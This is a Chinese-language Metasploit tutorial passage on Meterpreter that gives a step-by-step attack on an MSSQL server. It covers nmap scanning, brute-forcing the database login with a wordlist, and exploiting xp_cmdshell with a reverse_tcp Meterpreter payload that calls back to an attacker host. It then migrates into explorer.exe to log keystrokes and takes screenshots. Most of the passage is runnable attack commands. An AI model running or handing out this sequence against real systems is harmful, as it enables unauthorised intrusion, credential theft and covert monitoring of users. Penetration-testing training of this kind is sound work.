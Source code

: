 ## 六．METERPRETER

### 1、使用meterpreter

当对目标系统进行溢出时，使用meterpreter作为payload，给测试者返回一个shell，可用于在目标机器上执行更多的操作。
例子：

```
msf> nmap –sT –A –P0 192.168.1.130 #探测开放服务
#假如已经探测到1433（TCP）和1434(UDP)端口（mssql），
msf> nmap –sU 192.168.1.130 –P 1434   #确认端口开放
msf> use auxiliary/scanner/mssql/mssql_ping
show options
set RHOSTS 192.168.1.1/24
set THREADS 20
exploit
```

至此可获取服务器名称，版本号等信息。

```
msf> use auxiliary/scanner/mssql/mssql_login
show options
set PASS_FILE /pentest/exploits/fasttrack/bin/dict/wordlist.txt
set RHOSTS 192.168.1.130
set THREADS 10
set verbose false
exploit
```

暴力猜解登陆密码。接下来使用mssql自带的xp_cmdshell功能添加账户：

```
msf> use exploit/windows/mssql/mssql_payload
show options
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.111
set LPORT 433
set RHOST 192.168.1.130
set PASSWORD password130
exploit
```

当获取到一个meterpreter shell 后可以执行更多的操作：

获取屏幕截图：`screenshot`

获取系统信息：`sysinfo`

获取键盘记录：
```
meterpreter> ps  #查看目标机器进程，假设发现explorer.exe的进程号为1668:
meterpreter> migrate 1668  #插入该进程
meterpreter> run post/windows/capture/keylog_recorder  #运行键盘记录模块，将击键记录保存到本地txt
cat /root/.msf3/loot/*****.txt  #查看结果
```
